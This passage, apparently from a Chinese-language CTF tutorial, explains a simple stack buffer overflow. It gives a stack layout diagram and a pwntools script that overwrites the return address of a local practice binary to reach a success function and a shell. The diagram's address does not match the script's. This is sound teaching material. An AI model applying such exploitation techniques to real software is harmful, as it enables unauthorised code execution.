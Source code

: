 于是想办法让程序的栈成这样

```
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

 写出EXP

```python
from pwn import *

sh = process("./stack_example")

success_addr = 0x08049186

payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)

print(payload)

sh.sendline(payload)

sh.interactive()
```

Get Shell!

![image-20230625171115285](PWN/image-20230625171115285.png)



### 栈溢出的几个重要步骤
